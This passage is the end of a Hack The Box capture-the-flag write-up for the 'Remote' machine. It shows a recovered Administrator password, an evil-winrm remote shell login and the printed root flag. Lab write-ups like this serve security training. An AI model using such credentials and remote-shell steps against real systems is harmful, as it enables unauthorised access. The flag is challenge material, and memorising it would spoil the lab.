WINRM       10.10.10.180    5985   REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

```powershell wrap=false title='Obtenemos la flag de Administrator'
❯ evil-winrm -u 'Administrator' -p '!R3m0te!' -i 10.10.10.180
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
2fa0cd4fc081ad703fd33d7605ecf140
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/234)

---